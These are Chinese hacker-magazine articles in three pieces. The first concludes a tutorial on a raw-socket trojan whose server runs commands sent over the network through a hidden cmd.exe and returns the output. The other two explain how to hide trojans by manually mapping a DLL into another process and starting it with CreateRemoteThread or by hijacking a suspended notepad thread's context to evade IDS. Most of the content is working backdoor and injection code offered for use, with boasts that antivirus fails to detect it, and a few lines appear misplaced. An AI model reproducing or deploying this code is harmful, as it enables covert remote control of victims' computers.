设置套接字可以接收经过本网卡的所有数据包。

```cpp
DWORD dwOn = 1;
ioctlsocket(skRawListen, SIO_RCVALL, &dwOn);
```

循环接收数据包。

```cpp
char lpRecvBuf[MAX_RECV_LEN];
recv(skRawListen, lpRecvBuf, MAX_RECV_LEN, 0);
```

解包，筛选，显示执行结果。

```cpp
PIP_HEADER pIpHeader = (PIP_HEADER)lpRecvBuf;
```

然后这样筛选：如果 pIpHeader->dwSrcAddr 为服务端地址，且 pIpHeader->dwDstAddr 为刚才绑定到原始套接字的本机地址，且 pIpHeader->cProtocol 为 PROTO_TYPE_TROJAN，说明此包为木马服务端数据包。进行以下操作：

```cpp
PTROJAN_PACKET pTrojPack = (PTROJAN_PACKET)(lpRecvBuf + sizeof(IP_HEADER));
printf("%s", pTrojPack->szArg);
```

这样，客户端程序就基本完成了。这里每个函数调用都有可能发生错误，但是对于出现错误的处理，我在这里并没有给出，API 函数的具体说明请查阅 MSDN。读者朋友可以在我提供的源代码里找到具体的处理流程。

##### 2. 服务端

有了客户端程序做基础，服务端的编写也就不难了。无非是在从客户端接收到数据后并不将接收到的数据直接显示在屏幕上，而是将它作为一条命令，让操作系统去执行，然后将执行结果返回给客户端。那么，对于服务端程序的描述，我会尽量精简。

- 1. 依然是创建原始套接字，绑定到本地 IP 地址，设置接收所有数据包（“监听”）。
- 2. 创建原始套接字用于发送执行结果。
- 3. 创建两个匿名管道和一个隐形 cmd 进程，将 cmd 的标准输入、标准输出和标准错误绑定到匿名管道，使之可通过管道执行命令并输出结果。

```cpp
HANDLE hReadPipe, hWritePipe;
HANDLE hReadFile, hWriteFile;
SECURITY_ATTRIBUTES stAttribRead, stAttribWrite;
```

```cpp
stAttribWrite.bInheritHandle = TRUE;
stAttribWrite.nLength = sizeof(SECURITY_ATTRIBUTES);
stAttribWrite.lpSecurityDescriptor = NULL;
stAttribRead.bInheritHandle = TRUE;
stAttribRead.nLength = sizeof(SECURITY_ATTRIBUTES);
stAttribRead.lpSecurityDescriptor = NULL;
CreatePipe(&hReadPipe, &hWriteFile, &stAttribWrite, 0);
CreatePipe(&hReadFile, &hWritePipe, &stAttribRead, 0);
char szCmdLine[MAX_PATH];
GetSystemDirectory(szCmdLine, MAX_PATH);
strcat(szCmdLine, "\\cmd.exe");
STARTUPINFO stStartInfo;
GetStartupInfo(&stStartInfo);
stStartInfo.cb = sizeof(STARTUPINFO);
stStartInfo.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
stStartInfo.hStdError = hWritePipe;
stStartInfo.hStdInput = hReadPipe;
stStartInfo.hStdOutput = hWritePipe;
stStartInfo.wShowWindow = SW_HIDE;
PROCESS_INFORMATION stProcInfo;
CreateProcess(szCmdLine, "", NULL, NULL, TRUE, 0, NULL, NULL, &stStartInfo, &stProcInfo);
```

- 4. 循环接收数据包，判断是否为客户端发来的 PROTO_TYPE_TROJAN 协议数据。

```cpp
char lpRecvBuf[MAX_RECV_LEN];
recv(skRawListen, lpRecvBuf, MAX_RECV_LEN, 0);
```

- 5. 如果是来自客户端的命令信息，写入管道并执行。

```cpp
PTROJAN_PACKET pTrojPack = (PTROJAN_PACKET)(lpRecvBuf + sizeof(IP_HEADER));
char szExec[ARG_MAX_LEN + 2];
strncpy(szExec, (char*)pTrojPack->szArg, ARG_MAX_LEN);
strcat(szExec, "\r\n");
DWORD dwWrittenOrRed;
WriteFile(hWriteFile, szExec, pTrojPack->nArgLen + 2, &dwWrittenOrRed, NULL);
```

- 6. 从管道读取执行结果，并向客户端发送执行结果。

```cpp
TROJAN_PACKET stgTrojPack;
ReadFile(hReadFile, stgTrojPack.szArg, ARG_MAX_LEN, &dwWrittenOrRed, NULL);
stgTrojPack.dwAck = pTrojPack->dwSeq + 1;
stgTrojPack.dwCmd = TROJ_CMD_DISP;
stgTrojPack.dwSeq = pTrojPack->dwAck;
stgTrojPack.nArgLen = dwWrittenOrRed;
```

```c
char szSendBuf[sizeof(IP_HEADER) + sizeof(TROJAN_PACKET)];
IP_HEADER stIpHeader;
......                // 填充IP数据包头并校验
SOCKADDR_IN stPeer;
memset(&stPeer, 0, sizeof(SOCKADDR_IN));
stPeer.sin_family = AF_INET;
stPeer.sin_addr.s_addr = inet_addr("目的IP地址");
stPeer.sin_port = htons(1025);
sendto(skgaRaw, szSendBuf,
       sizeof(IP_HEADER) + sizeof(TROJAN_PACKET),
       0, (PSOCKADDR)&stPeer, sizeof(SOCKADDR));
```

转去重复执行第4步。

OK！服务端程序也写完了。把两个工程添加到一个 Workspace 里，在 Windows 2000 + SP4、VC6.0 环境下编译通过，Windows 2000 + SP4 上执行，天网没反应，瑞星也没反应，成功！收队！

#### 总结篇

回过头来看看这个木马，实现的方法很简单，但是其中最有技术含量的地方却在于开拓的思路上——对于 TCP/IP 协议的充分认识和灵活运用，使得这么一个穿墙木马诞生了。

从技术角度分析，这种木马确实很难被防火墙拦截，原因如下。

- 1. 我的数据包可以是 IP 层以上的任何协议，包括通用的协议（如 TCP、UDP 等）和自定义的协议（如本文中的协议），所以防火墙无法通过简单的禁止某协议的手段来拦截，更无法通过分析数据包里的内容来拦截。
- 2. 可以复用开放的端口。即便防火墙只允许某特定协议，做了严格限制（比如只允许 TCP 80 端口），木马仍可接收达到网卡的所有数据包；当客户端向其 TCP 80 端口发送特殊结构命令时，系统可能视为垃圾而丢弃，但木马可正确识别并处理。
- 3. 由于 IP 层数据包没有端口概念，可以让每个数据包都使用随机变化的端口（指 TCP/UDP 层面），从而逃过 IDS 监视。
- 4. 在共享式网络环境中（如集线器连接的以太网），数据包是广播发送，网卡可接收所有数据包，因此可把每次发送数据的 IP 地址设为随机变化（或特定虚假值），不靠地址识别来源，而采用 IP 头字段识别是否为木马程序发送的数据。
- 5. 遗憾的是，Windows XP + SP2 不支持原始套接字，所以无论服务端还是客户端，在这里都会失败。

由于时间紧张，没有做充分测试，再加上作者能力有限，错误是难免的，欢迎大家到黑客防线论坛上与我讨论。

【本文涉及的代码（程序），请见随书光盘】



## 让木马藏得更深——线程注射技术新发展（上）

文/图 BlackBeast

#### 简介

《黑客防线》杂志上曾经连续刊登若干有关线程注射隐藏自身的木马编写技术，讨论主要集中在如何将线程函数代码写入注入进程并正确创建远程线程上。创建远程线程时主要有两个难点：

- 1. 如果直接将代码写入注入进程，写入代码中的所有 API 必须使用 GetProcAddress 获得函数指针间接调用，必要时还需要 LoadLibrary，代码编写复杂且枯燥无味。
- 2. 如果采用在注入进程加载 DLL 的方式，通过加载过程中 DLLMain 调用完成代码操作，在 DLLMain 中无法开启新线程，而且远程线程必须依赖该 DLL 存在，增加了被发现的可能。

深感佩服。于是，在学习的过程中就有了这篇笔记，现与大家同享。在此我要感谢局部变量先生对本文的帮助。

本文讲解的技术，很大程度上降低了线程插入式后门的编写难度，让编写大规模复杂化的该类后门成为可能。此外，该技术也在一定程度上提高了后门的隐蔽性。

#### 程序原理

大家在编写程序的过程中，经常要加载各种 DLL。当一个 DLL 被加载到某进程的地址空间后，其所有的函数就可以被此进程直接调用。这是因为系统在加载 DLL 模块时针对本地进程具体情况，对 DLL 文件的函数调用做了相应处理。所以只要把远程线程函数写入某 DLL 中，然后替系统完成目标进程加载该 DLL 的过程，就可以轻松编写远程线程函数代码，又不用带着以前的 DLL 小尾巴了。

为了替系统完成重定位函数地址和重新加载隐式 DLL 模块，你起码需要了解 PE 文件的重定位段和导入段。而为了获得远程线程函数地址，你还需要了解导出段的相关知识。以下将详细介绍。

#### 前置基础知识

要想代替系统手动完成加载 DLL 的工作，必须对 DLL 的结构有一定了解。

下面我们来介绍 PE 文件的结构。PE 文件格式被组织为一个线性的数据流，它由一个 MS-DOS 头部开始，接着是一个实模式的程序残余和一个 PE 文件标志，接着是 PE 文件头、可选头部，所有的段头部，段头部之后跟随着所有的段实体。文件的结束区域部分，主要是一些混杂的信息，包括重分配信息、符号表信息、行号信息以及字符串表数据。从右表中可以看出 PE 文件的大体结构。

| PE文件结构 |
|---|
| MS-DOS头部 |
| MS-DOS实模式残余程序 |
| PE文件标识 |
| PE文件头 |
| PE文件可选头部 |
| .text段头部 |
| .bss段头部 |
| .rdata段头部 |
| …… |
| .debug段头部 |
| .text段 |
| .bss段 |
| .rdata段 |
| …… |
| .debug段 |

### MS-DOS头部

MS-DOS 头部最重要的一个成员变量就是 e_lfanew，这个变量是一个偏移量值，通过它我们可以找到 PE 头结构的地址。

文件头、PE 文件可选头部就属于该结构。在 Windows 中，该结构声明如下：

```c
typedef struct _IMAGE_NT_HEADERS {
  DWORD Signature;
  IMAGE_FILE_HEADER FileHeader;
  IMAGE_OPTIONAL_HEADER32 OptionalHeader;
} IMAGE_NT_HEADERS32, *PIMAGE_NT_HEADERS32;
```

### PE文件头

PE 文件的信息基本是一些高级信息，这些信息是操作系统或者应用程序决定如何处理这个文件的依据。例如，第一个域是用来表示这个可执行文件被构建的目标机器种类，比如 DEC(R) Alpha、MIPS R4000、Intel(R) x86 这些处理器。在读取该 PE 文件的其他数据之前，系统可以利用这个信息来决定如何处理它们。

PE 文件头结构中另一个有用的入口是 NumberOfSections 域，它表示该 PE 文件共有多少个段头部和多少个段实体，这些段头部和段实体是在文件中连续线性排列的。

### PE文件可选头

PE 文件可选头部虽然称做“可选”，但事实上它是必须的。该结构分成标准域和 NT 附加域两个部分，其中标准域是和 Unix 可执行文件的 COFF 格式所公共的部分，而 NT 附加域主要是一些 Windows 系统装载 DLL 所需的版本号、内存对齐长度等相应信息。

在 NT 附加域中最重要的是一个 IMAGE_DATA_DIRECTORY 结构对象的数组，每个数组成员指定了对应段头部的尺寸和相对虚拟地址，PE 文件的段头部都与该数组有着固定的一一对应关系。如果需要定位一个特定的段头部，就需要从可选头部中的 IMAGE_DATA_DIRECTORY 数组中找到对应该段的数组元素，并从该元素中获得所需段头部的偏移地址，然后使用该偏移量定位段头部，进而就可以访问该段中数据了。

IMAGE_DATA_DIRECTORY 数组共有 16 项，目前使用 11 项。接下来是我们重点介绍的对象：本程序相关的 3 个段——重定位段、导出段、导入段。

### 重定位段

众所周知，将函数的调用编译成汇编语言就是如下格式：

```c
function(7);
0042801E  push    7
00428020  call    function (415F14h)
```

而由于同一个 DLL 在不同的进程中加载的基地址不同，所以同一个函数在不同进程中的入口地址也不同，重定位表就是为了解决这个问题而设计的。在 PE 文件可选头部有一个 ImageBase 变量，是用来标识该 DLL 加载到进程地址空间中的首选基地址，该 DLL 中的函数偏移量是根据该地址计算得出的（ImageBase+函数在 DLL 中的相对偏移量）。在加载过程中，如果无法将该 DLL 顺利加载到 ImageBase 处，则需要修改所有函数地址……

```c
typedef struct _IMAGE_BASE_RELOCATION {
    DWORD VirtualAddress;
    DWORD SizeOfBlock;
} IMAGE_BASE_RELOCATION;
```

实际上，每个重定位表项除了这个表头外，后面还跟着若干数据项，具体项数由 SizeOfBlock 标示，每个数据项就是一个 USHORT。其中，高 4 位字节用于标记该数据项是否有效……一个内存页中的全部需要更改的数据地址都包含在一个重定位表项中，所以每个数据项只保存页内偏移地址即可。

我们构建一个包含两个重定位表项的重定位表，第一个表项有 3 个数据项，包含一个无效的对齐数据项；第二个表项有 4 个数据项，如下表所示。

| 重定位表项 | 内容 |
|---|---|
| 第一个重定位表项 | 页地址；该表项大小；数据项一(0x32d4，有效)；数据项二(0x3859，有效)；数据项三(0x3a56，有效)；数据项四(0x0015，无效) |
| 第二个重定位表项 | 页地址；该表项大小；数据项一(0x32e4，有效)；数据项二(0x35f9，有效)；数据项三(0x3675，有效) |

### 导出段

下面介绍导出段，它包含了 DLL 的导出数据，主要是该 DLL 提供的全部可供加载者调用函数的相关信息。在 Windows 系统中是这样定义导出段结构体的：

```c
typedef struct _IMAGE_EXPORT_DIRECTORY {
    DWORD Characteristics;
    DWORD TimeDateStamp;
    WORD  MajorVersion;
    WORD  MinorVersion;
    DWORD Name;
    DWORD Base;
    DWORD NumberOfFunctions;
    DWORD NumberOfNames;
    DWORD AddressOfFunctions;
    DWORD AddressOfNames;
    DWORD AddressOfNameOrdinals;
} IMAGE_EXPORT_DIRECTORY, *PIMAGE_EXPORT_DIRECTORY;
```

导出目录中的 Name 域标识了可执行模块的名称。NumberOfFunctions 域和 NumberOfNames 域表示模块中有多少导出的函数以及这些函数的名称。AddressOfFunctions 域指向一个数组，该数组存储着 DLL 全部导出函数的入口地址……一旦模块被装载，要获得某数据在进程地址空间中的确切地址，只需在对应的偏移量上加上模块的基地址即可。

### 导入段

下面我们来介绍导入段，这个段的作用是协助进程解决隐式加载 DLL 中包含的函数在本 DLL 中的调用问题。例如在某 DLL 中需要调用如 CreateFile 之类的 Windows 的 API，此 DLL 被加载后，确定该 API 在加载此 DLL 进程中的入口地址位置就需要导入段的协助。首先给出导入段在 Windows 中的结构定义。

```c
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD Characteristics;
        ...
    };
    DWORD OriginalFirstThunk;
    DWORD TimeDateStamp;
    DWORD ForwarderChain;
    DWORD Name;
    DWORD FirstThunk;
} IMAGE_IMPORT_DESCRIPTOR;
```

导入段由该结构对象构成的数组组成，每个结构对象对应一个本 DLL 需要的 DLL 文件，整个导入表以一个 `Characteristics` 字段为 0 的 `IMAGE_IMPORT_DESCRIPTOR` 结束。

其中 `Name` 字段是一个指向 DLL 名称的偏移地址，而 `OriginalFirstThunk` 和 `FirstThunk` 对应一个由 `IMAGE_THUNK_DATA` 组成的数组的偏移地址，每一个 `IMAGE_THUNK_DATA` 对应从该 DLL 引入的一个函数。下面是 `IMAGE_THUNK_DATA` 的结构定义：

```c
typedef struct _IMAGE_THUNK_DATA32 {
    union {
        DWORD ForwarderString;
        DWORD Function;
        DWORD Ordinal;
        DWORD AddressOfData;
    } u1;
} IMAGE_THUNK_DATA32;
```

这个结构体定义十分晦涩，但它与一个 DWORD 变量等价。当这个变量的最高位为 1 时，表示本函数是以序号的形式引入的，变量低 16 位就是该序号的值；为 0 时代表本函数是以函数名的形式引入的，且此 DWORD 是一个偏移量，指向一个 `IMAGE_IMPORT_BY_NAME` 结构。`IMAGE_IMPORT_BY_NAME` 结构定义如下：

```c
typedef struct _IMAGE_IMPORT_BY_NAME {
    WORD Hint;
    BYTE Name[1];
} IMAGE_IMPORT_BY_NAME;
```

其中 `Name[1]` 是一个变长数组，保存的是函数名。

看到这里大家也许会奇怪，既然 `OriginalFirstThunk` 和 `FirstThunk` 有相同的内容，为什么还要重复出现呢？这是因为在 DLL 被加载之后，`OriginalFirstThunk` 的内容不会变，而 `FirstThunk` 的内容就会变成相应函数在该进程中对应的地址。

#### 程序分析

- 1. 将 DLL 文件映射到内存中；
- 2. 获得所需要插入的进程的 ID 号，并在该进程中分配空间；
- 3. 根据重定位表更改目标 DLL 中的相关函数地址；
- 4. 将更改后的 DLL 映像拷贝到目标进程的地址空间；
- 5. 准备远程线程函数所需的参数；
- 6. 根据导出表获得远程线程函数的入口地址；
- 7. 开启远程线程；
- 8. 根据导入表内容，获得远程线程所需的系统 API 地址。

### 映射DLL&寻找进程

对应着步骤一和步骤二，这两个过程相对简单，只需要使用 `OpenProcess()`、`VirtualAllocEx()` 等几个 Windows 的简单系统调用即可，不再赘述。

#### 更改函数地址

该过程比较复杂，需参考前面介绍的重定位表的相关知识，结合代码分析如下：

```c
void InjectTool::ReLoadImage(PBYTE pImage, PBYTE pRelocTbl, DWORD dwRelocOffset)
{
    DWORD dwRva = 0, dwRvaCount = 0;
    WORD* arrOffset = NULL;
    PIMAGE_BASE_RELOCATION pImageBaseRelocation = (PIMAGE_BASE_RELOCATION)pRelocTbl;

    while (pImageBaseRelocation->VirtualAddress != NULL) {
        arrOffset = (WORD*)(pRelocTbl + sizeof(IMAGE_BASE_RELOCATION));
        dwRvaCount = (pImageBaseRelocation->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / 2;

        for (DWORD i = 0; i < dwRvaCount; i++) {
            dwRva = arrOffset[i];
            if ((dwRva & 0xF000) == 0x3000) {
                dwRva &= 0x0FFF;
                dwRva += pImageBaseRelocation->VirtualAddress + (DWORD)pImage;
                *(DWORD*)dwRva += dwRelocOffset;
            }
        }

        pRelocTbl += pImageBaseRelocation->SizeOfBlock;
        pImageBaseRelocation = (PIMAGE_BASE_RELOCATION)pRelocTbl;
    }
}
```

此外说一下这个函数调用的参数 `dwRelocOffset = (DWORD)pInjectPos - this->PImageNtHeader->OptionalHeader.ImageBase`，也就是该 DLL 默认加载地址和程序实际在目标进程分配空间的首地址的差。

过程就是进程 LoadLibrary 的过程之一。

这里顺便介绍第 4 和第 5 步。第 4 步比较简单，不再赘述。至于第 5 步参数的准备，在第 3 步完成后，重定位表就已经没有任何作用了。故参数就可以写在原来重定位表所在的地址空间，不必分配新的空间。

#### 获得线程函数地址

该过程需要参考导出表相关知识，结合代码分析如下：

```c
DWORD InjectTool::GetEnterPoint(PBYTE pImage)
{
    DWORD dwEntry = 0, index = 0;
    IMAGE_EXPORT_DIRECTORY* pImageExportDirectory =
        (IMAGE_EXPORT_DIRECTORY*)(pImage + this->
        pImageNtHeader->OptionalHeader.DataDirectory[0].
        VirtualAddress);

    DWORD* pNameTbl = (DWORD*)(pImage +
        pImageExportDirectory->AddressOfNames);// 定位导出表的地址

    for(index=0; index<pImageExportDirectory->
        NumberOfNames; index++, pNameTbl++)// 遍历导出表
    {
        if(strcmp("ThreadEntry", (char*)(pImage + (*pNameTbl)))
            == 0)// 寻找函数名
        {
            index = ((WORD*)(pImage + pImageExportDirectory->
                AddressOfNameOrdinals))[index];
            dwEntry = ((DWORD*)(pImage +
                pImageExportDirectory->AddressOfFunctions))[index];// 获得函数地址
            break;
        }
    }

    return dwEntry;// 返回函数地址
}
```

#### 开启远程线程

开启远程线程十分简单，在前几步工作完成的基础上直接调用如下 API 即可：

```c
CreateRemoteThread(hProcess, NULL, 0, pEntry, pParam, 0, NULL);
```

### 更改远程线程所需的系统API地址

这个过程必须在远程线程开启后，在目标进程的地址空间里完成，以便获得目标进程中相应函数的入口地址。该过程需要用到 LoadLibrary 和 GetProcAddress 两个 API，这两个 API 都存在于 Kernel32.dll 中，而这个 DLL 几乎在所有的进程中都需要加载，且一般以默认地址加载。也就是说这两个函数的入口地址在不同的进程中都是一致的，所以在远程线程中可以轻易获得这两个函数的入口地址。

下面结合代码说明：

```c
BOOL LoadImportFx(LPBYTE pBase, FxLoadLibrary fnLoadLibrary, FxGetProcAddr fnGetProcAddr)
{
    PIMAGE_DOS_HEADER pImageDosHeader = (PIMAGE_DOS_HEADER)pBase;
    PIMAGE_NT_HEADERS pImageNtHeader =
        (PIMAGE_NT_HEADERS)(pBase + pImageDosHeader->e_lfanew);

    for(PIMAGE_IMPORT_DESCRIPTOR pImageImportDescriptor =
            (PIMAGE_IMPORT_DESCRIPTOR)
            (pBase + pImageNtHeader->OptionalHeader.DataDirectory[1].VirtualAddress);
        pImageImportDescriptor->OriginalFirstThunk != 0;
        pImageImportDescriptor++)
    {
        HMODULE hDll = fnLoadLibrary((LPCSTR)(pBase + pImageImportDescriptor->Name));
        if(hDll == NULL)
        {
            return FALSE;
        }

        PIMAGE_THUNK_DATA pOrigin =
            (PIMAGE_THUNK_DATA)(pBase + pImageImportDescriptor->OriginalFirstThunk);
        PIMAGE_THUNK_DATA pFirst =
            (PIMAGE_THUNK_DATA)(pBase + pImageImportDescriptor->FirstThunk);

        LPCSTR pFxName = NULL;
        PIMAGE_IMPORT_BY_NAME pImageImportByName = NULL;

        while(pOrigin->u1.Ordinal != 0)
        {
            if(pOrigin->u1.Ordinal & IMAGE_ORDINAL_FLAG)
            {
                pFxName = (LPCSTR)IMAGE_ORDINAL(pOrigin->u1.Ordinal);
            }
            else
            {
                pImageImportByName = (PIMAGE_IMPORT_BY_NAME)
                    (pBase + pOrigin->u1.AddressOfData);
                pFxName = (LPCSTR)pImageImportByName->Name;
            }

            pFirst->u1.Function = (DWORD)(fnGetProcAddr(hDll, pFxName));
            if(pFirst->u1.Function == NULL)
            {
                return FALSE;
            }

            pOrigin++;
            pFirst++;
        }
    }

    return TRUE;
}
```

这就是获得所需调用函数入口地址的全部过程。

### 远程线程

最后谈谈远程线程，我们可以在远程线程中像书写正常代码一样书写任何代码，我在其中尝试了 MessageBox 调用和开启新线程操作，都可以正常调用。

远程线程函数的编写带来了极大的方便，可是它还是存在一些缺陷的，主要是开启远程线程所需的系统函数 CreateRemoteThread 已经被大多数 IDS 识别并作为判断后门程序的标志。

#### 小结

文章写到这里可以结束了，使用此法给远程线程压入栈顶，以后再需要调用参数时，就可以直接从栈顶获得。

> ［本文涉及的代码（程序），请见随书光盘］




### 让木马藏得更深——线程注入技术新发展（下）

文／图 BlackBeast

#### 简介

上一篇文章说到，CreateRemoteThread 已经被大多数的 IDS 识别为木马的特征之一。本文为大家介绍一种新的远程线程的开启方法，它可以绕过很多 IDS 的检测。此外这次我们所使用的 API 会比 CreateRemoteThread 具有更好的兼容性，能够保证木马在 Windows 98 下正常运行。下面我们先来熟悉一下背景知识。

#### 背景知识

#### 函数调用原理

写一个最简单的函数，并且在我们的程序中调用，如下所示：

```cpp
DWORD WINAPI TryThreadFun(LPVOID lpParam)
{
    MessageBox(NULL,"Success!","haha",MB_OK);
    return 0;
}

int _tmain(int argc, _TCHAR* argv[])
{
    TryThreadFun(NULL);
    getch();
    return 0;
}
```

我们在函数设置处设置断点，然后进入到汇编代码中，如下所示：

```asm
00411B5E  push  0
00411B60  call  TryThreadFun (4110E6h)
```

在这里，PUSH 0 就是针对该函数的参数 NULL 进行的操作。在函数被调用之前，首先要把参数压入栈顶，以后再需要调用参数时，就可以直接从栈顶获得。

#### 相关 API

- 1. **CreateProcess**：提起它很多人都会觉得熟悉，“不就是创建一个新的进程么？”然而真正能完全熟悉该函数功能的人并不多，通过设置不同的参数，该 API 可以完成对新创建进程输入输出流的重定位，设置新进程对应核心对象的安全属性等功能。在这里，我们只需要关心怎么获得进程的进程内核对象和线程内核对象，所以我们只需要关注它的最后一个参数 `LPPROCESS_INFORMATION lpProcessInformation`。该结构体有 4 个成员变量：新创建进程的进程对象、进程 ID、线程对象、线程 ID，CreateProcess 返回时上述变量便可获得。
- 2. **GetThreadContext**：它主要是用来获得特定线程的上下文环境信息。此函数有两个参数，`hThread` 指定目标线程句柄，`lpContext` 指向一个 CONTEXT 结构，GetThreadContext 函数会将目标线程的环境返回到此结构中。在执行函数前，必须设置 CONTEXT 结构中的 `ContextFlags` 字段，它指定了需要操作的寄存器范围。访问通用寄存器可以指定 `CONTEXT_INTEGER`，访问段寄存器可以指定 `CONTEXT_SEGMENTS`，要访问全部寄存器则指定为 `CONTEXT_FULL`。
- 3. **SetThreadContext**：本函数与 GetThreadContext 功能相对应，用来设置特定线程的上下文环境信息。需要注意的是，这两个函数必须针对挂起的线程使用，否则中途出现线程切换操作会导致无法预知的后果。
- 4. **ResumeThread**：顾名思义，就是将挂起的线程恢复运行。

这句话是设置宿主进程的 Eip 寄存器，Eip 寄存器存放了一个指向程序即将运行的代码的指针，平时我们研究溢出经常需要覆盖该指针以改变溢出对象的运行路线。在这里，我们把它设置为 `pEntry`，也就是我们写入宿主进程空间的远程线程代码。

#### 代码分析

由于代码部分与上期文章大部分相同，故在此只介绍不同的部分——开启远程线程。

```cpp
if((pImage = (LPBYTE)TheTool.LoadDllToMem()) == NULL)
{
    TheTool.ErrorOut("Load Error!");
    __leave;
}
```

将 DLL 文件载入内存。

```cpp
if (!CreateProcess(NULL, "notepad.exe", NULL, NULL,
TRUE, NORMAL_PRIORITY_CLASS | CREATE_SUSPENDED,
NULL, NULL, &sui, &pi))
{
    TheTool.ErrorOut("Create Process Error");
    __leave;
}
```

以上操作完成了创建宿主进程的工作，本例中我们创建一个记事本的进程，注意创建时必须使新创建的进程挂起，以便进行后续工作。

```cpp
hProcess = pi.hProcess;
hThread  = pi.hThread;
```

获得新创建进程的核心对象。

```cpp
if((pInjectPos = (LPBYTE)VirtualAllocEx(hProcess, NULL,
TheTool.PImageNtHeader->OptionalHeader.SizeOfImage,
MEM_COMMIT, PAGE_EXECUTE_READWRITE)) == NULL)
{
    TheTool.ErrorOut("Alloc Space Error");
    __leave;
}

TheTool.ConstructData(pImage, pInjectPos,
(PVOID*)&pEntry, (PVOID*)&pParam);
if(!WriteProcessMemory(hProcess, pInjectPos, pImage,
TheTool.PImageNtHeader->OptionalHeader.SizeOfImage, NULL))
{
    TheTool.ErrorOut("Write Target Process Memory Error");
    __leave;
}
```

以上操作完成向目标进程写入远程线程函数的代码。

```cpp
cntxt.ContextFlags = CONTEXT_FULL;
if (!GetThreadContext(hThread, &cntxt))
{
    TheTool.ErrorOut("Get Thread Context Error");
    __leave;
}
```

以上操作负责获取宿主进程的线程上下文环境。

`cntxt.Eip = (DWORD)pEntry;`

```cpp
DWORD ParamentAddress=(DWORD)pParam;
if (!WriteProcessMemory(hProcess, (LPVOID)(cntxt.Esp - sizeof(DWORD)), (LPVOID)&ParamentAddress, sizeof(DWORD), &dummy))
{
    TheTool.ErrorOut("Write Parament Error");
    __leave;
}
if (dummy != sizeof(DWORD))
{
    TheTool.ErrorOut("Write Parament Error");
    __leave;
}
cntxt.Esp -= sizeof(DWORD)*2;
```

